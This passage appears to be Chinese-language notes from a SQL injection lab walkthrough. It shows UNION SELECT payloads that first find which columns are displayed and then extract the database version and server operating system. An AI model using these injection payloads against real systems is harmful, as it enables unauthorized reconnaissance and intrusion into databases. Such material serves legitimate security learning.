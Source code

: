 第4位和第5位显示出来，在4,5进行插入语句

```
union select 1,2,3,4,5,6
```

![image-20240317144514089](../图片/image-20240317144514089.png)

查询数据库版本，服务器操作系统

```
union select 1,2,3,version(),@@version_compile_os,6
```
